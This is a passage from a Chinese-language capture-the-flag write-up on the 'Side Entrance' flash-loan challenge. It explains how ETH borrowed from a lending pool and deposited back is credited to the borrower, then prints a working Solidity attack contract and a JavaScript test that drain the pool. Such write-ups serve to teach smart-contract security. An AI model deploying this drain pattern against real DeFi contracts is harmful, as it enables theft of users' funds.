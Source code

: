 ```
    `}`
`}`
```

但仔细审计源代码之后发现本题的漏洞也非常明显，如果从贷款池中借出一定量的 ETH 并通过 `deposit()` 函数将这部分 ETH 存入，那么在满足 `address(this).balance &gt;= balanceBefore` 的同时，`balances[msg.sender]` 也会增加。然后我们再通过 `withdraw()` 函数取出，即可顺利提空贷款池中的内部金额。根据逻辑构造攻击合约：

```
interface IFlashLoanEtherReceiver `{`
    function execute() external payable;
`}`

interface ISideEntranceLenderPool `{`
    function deposit() external payable;
    function withdraw() external;
    function flashLoan(uint256 amount) external;
`}`

contract AttackSideEntrance is IFlashLoanEtherReceiver `{`
    using Address for address payable;

    ISideEntranceLenderPool pool;

    function attack(ISideEntranceLenderPool _pool) public `{`
        pool = _pool;
        pool.flashLoan(address(_pool).balance);
        pool.withdraw();
        msg.sender.sendValue(address(this).balance);
    `}`

    function execute() external payable override `{`
        pool.deposit`{`value:msg.value`}`();
    `}`

    receive() external payable`{``}`
`}`
```

```
const AttackSideEntrance = contract.fromArtifact('AttackSideEntrance');
// ...
it('Exploit', async function () `{`
    const attack = await AttackSideEntrance.new();
    await attack.attack(this.pool.address, `{` from: attacker `}`);
`}`);
```

[![](https://p0.ssl.qhimg.com/t0123eb5f566a0a7aec.png)](https://p0.ssl.qhimg.com/t0123eb5f566a0a7aec.png)



## The rewarder
